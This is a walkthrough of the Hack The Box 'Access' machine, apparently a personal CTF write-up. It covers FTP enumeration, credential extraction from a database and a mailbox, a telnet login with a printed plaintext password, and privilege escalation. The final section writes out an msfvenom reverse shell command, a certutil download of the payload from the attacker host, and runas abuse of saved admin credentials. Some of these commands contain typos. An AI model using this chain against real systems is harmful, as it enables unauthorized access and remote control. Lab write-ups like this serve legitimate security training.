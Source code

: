 # Access [htb](https://app.hackthebox.com/machines/Access)
![Access-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/acess-01.png)


## Recon

Before we start enumeration, let's add the target to our `/etc/hosts` file:
![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/hosts-02.png)


Running nmap:

`nmap -sC -sV -p- -A access.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/nmap-res-03.png)


We have the following:

+ FTP on port 21 (appears to permit anonymous logins).
+ Telnet on port 23. 
+ An IIS v7.5 server on port 80. 


We should start with the FTP server and see if we can find interesting information, or maybe 
misconfiguration of privileges. We then should take a look at the IIS server, and finally telnet 
at the end if we get stuck. 



### FTP 21

Let's login anonymously with `anonymous : anonymous`: 

![anon-ftp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/anon-ftp-04.png)


We have two folders: 
+ Backups
+ Engineer


Lets cd into `Backups` and see what we can find: 

![ftp-backups-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/ftp-backups-05.png)


Looks like we have an `.mdb` database here. Lets switch to binary mode and get this to our kali. 

![get-db-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/get-db-06.png)


We can open this type of database [online](https://www.mdbopener.com/): 

![open-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/open-db-07.png)


we get a list of all the tables in the database, and we can view them online. Iv'e found a couple
of interesting tabels. Primarly: 

+ auth_user - This is the user table with clear-text credentials. 

![auth-user-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/auth-user-08.png)

+ action_log - Stores action performed by the admin when setting up the database. 
+ USERINFO   - Inforamtion about users. 
+ auth_group - An administration group name and permissions. 

 
The `auth-user` is of most interest to us, we should try to use these credentials on the IIS 
server. But before we do that, there was another folder on the FTP, `Engineer`, 
and we have a user named engineer in the db. Lets see what we can find. 

![engineer-ftp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/engineer-ftp-09.png)

Looks important. Lets put this on our Kali: 

![get-acl-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/get-acl-10.png)


If we examine the file with `file access_control.zip` (i renamed it): 

![file-acl-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/file-acl-11.png)


We can see it's an AES encrypted ZIP archive. You can try to use `zip2john`, then crack it with 
`john` but that wont work. we have the credentials for this archive. 

Use `7za` to decompress the arachive: 

`7za e access_control.zip`


![extract-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/extract-12.png)


This gives us a `.pst` file (personal storage table), which is a file format Microsoft programs 
use to store items like calendar events, contacts, and email messages. PST files are stored 
within popular Microsoft software like `Microsoft Exchange`, `Windows Messaging`, 
and `Microsoft Outlook`.

We can open `.pst` files on Kali using `readpst`: 

`apt install pst-utils`


Then read the file with `readpst acl.pst` (renamed the file). 

![readpst-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/readpst-13.png)


This outputs an `.mbox` file we can read on Unix with `less acl.mbox`:

![mail-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/mail-14.png)


We found another user account, this time for a uyser named "security". This user didnt show 
up in the `auth-user` table from before. Lets take a look at the web-sever. 



### IIS 80

If we open our browser and navigate towards `http://access.htb/` we get the following page:

![site-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/site-15.png)

Not much to do here, Lets try directory busting with: 

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://access.htb/FUZZ`


Nothing comes up. The site is empty, lets try the telnet. 


### Telnet 23

If we connect to the server with `telnet access.htb`, and wait just a sec... we will be prompted
for credentials: 

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/shell-16.png)

Use the credetials we got from the email `security : `4Cc3ssC0ntr0ller`.  
Lets move to priv esc. 



## Privilege Escalation

If we list out our user privileges: 

![privs-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/privs-17.png)


Nothing interesting comes out. If we list out `systeminfo` : 

![sysinfo-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/sysinfo-18png.png)

We can see wer'e running a 2008 server V6.1.7600. We can check exploits but there is a faster way.
Lets search for stored credentials with `cmdkey /list`

![creds-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/creds-19.png)


We can now use `runas` to take the admins passwords and run a reverse shell payload.

+ First we need some venom: 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.68 LPORT=9009 -f exe > rshell.exe`

![venom-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/venom-20.png)


+ Start a python server with:

`python3 -m htp.server 80`


+ Download the shellcode to the target with:

`ertutil -urlcache -f http://10.10.14.68/rshell.exe rshell.exe`


+ Start the listner with: 

`nc -lnvp 9009`


+ Execute the payload as Administrator:

`runas /savecred /user:ACCESS\Administrator "C:\\Users\security\rshell.exe"`


+ Get a shell:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/root-20.png)
